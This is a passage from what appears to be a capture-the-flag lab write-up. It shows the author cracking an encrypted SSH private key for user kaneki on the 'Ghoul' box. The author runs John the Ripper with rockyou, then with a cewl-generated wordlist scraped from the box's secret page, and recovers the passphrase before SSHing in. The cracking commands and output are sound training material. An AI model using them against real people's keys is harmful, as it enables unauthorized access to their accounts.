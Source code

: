 There’s not much to find with either. But it is important to note the usernames. For Eto, I have to log in as Eto, not eto, to match the account on the box.

### Crack Private Key

The only private key that’s encrypted is kaneki’s. `rockyou` can run over the key in a few seconds, but doesn’t find the password:

```

root@kali# /opt/john/run/john -wordlist=/usr/share/wordlists/rockyou.txt id_rsa_ghoul_kaneki.john 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:07 DONE (2019-05-24 04:24) 0g/s 2025Kp/s 2025Kc/s 2025KC/s     1990..*7¡Vamos!
Session completed

```

I’ll play with running `cewl` on various pages Ghoul and see if it turns out the password. The wordlist from `/secrets.php` works:

```

root@kali# cewl http://10.10.10.101/secret.php -w secrets.wordlist
CeWL 5.4.4.1 (Arkanoid) Robin Wood (robin@digi.ninja) (https://digi.ninja/) 

root@kali# /opt/john/run/john -wordlist=secrets.wordlist id_rsa_ghoul_kaneki.john 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 3 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
ILoveTouka       (id_rsa_ghoul_kaneki)
1g 0:00:00:00 DONE (2019-05-24 04:26) 100.0g/s 11000p/s 11000c/s 11000C/s made..moment
Session completed

```

Perhaps Kaneki accidentally pasted his password into the chat:

![1558686439183](https://0xdfimages.gitlab.io/img/1558686439183.png)

### SSH to kaneki-pc

The password gives me access to the key, which I can use to ssh into this container as kaneki:
